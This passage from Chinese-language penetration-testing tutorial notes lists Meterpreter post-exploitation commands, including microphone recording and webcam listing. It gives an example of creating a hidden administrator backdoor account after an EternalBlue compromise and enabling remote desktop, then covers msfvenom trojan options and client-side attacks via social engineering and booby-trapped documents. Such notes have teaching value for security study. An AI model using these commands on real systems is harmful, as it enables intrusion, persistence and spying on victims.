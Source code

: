 ```shell
#search -f win.ini
查找文件

#arp

#netstat

#ipconfig/ifconfig

#route -h
路由表

#idletime

#resource -r r.txt

#record_mic
麦克风

#Webcam_list
摄像头

#例:创建后门用户并开启远程连接，
#永恒之蓝攻击成功后，在metaspolit中执行：
shell
net user zhangsan 123456 /add && net localgroup administrators zhangsan /add
exit

#开启windows远程桌面连接，这种方式很少使用，因为一个用户登录后，会把另一个用户顶掉。
run getgui -e
```

## 2.19 msfvenom远程控制木马

```shell
在什么情况下需要使用客户端攻击?
在无法突破网络边界的情况下转而攻击客户端
社会工程学攻击
进而渗透线上业务网络
含有漏洞利用代码的web站点
利用客户端漏洞
含有漏洞利用代码的DOC,PDF 等文档
诱骗被害者执行Payload

msfvenom是msfpayload和msfencode命令的结合体

#参数
-p,--payload < payload>指定需要使用的 payload(攻击荷载),如果需要使用自定义的 payload，请使用&#039;-&#039;或者stdin指定·
-l,--list [module_type]列出指定模块的所有可用资源﹒模块类型包括: payloads, encoders, nops, all.
-n,--nopsled <length>为payload预先指定一个NOP滑动长度.
-f,--format <format>指定输出格式(使用--list formats来获取msf支持的输出格式列表)
-e,--encoder [encoder]指定需要使用的encoder (编码器）·
-a,--arch <architecture>指定payload的目标架构
--platform , <platform>指定payload的目标平台
-s,--space <length>设定有效攻击荷载的最大长度
-b,--bad-chars <list>设定规避字符集，比如:&#039;\x00\xff&#039;
-i,--iterations <count>指定payload 的编码次数
-c,--add-code <path>指定一个附加的win32 shellcode文件.
-x,--template < path>指定一个自定义的可执行文件作为模板·
-k,--keep保护模板程序的动作，注入的payload作为一个新的进程运行·
--payload-options 列举payload的标准选项
-o,--out <path>保存payload
-v,--var-name < name>指定一个自定义的变量，以确定输出格式
```
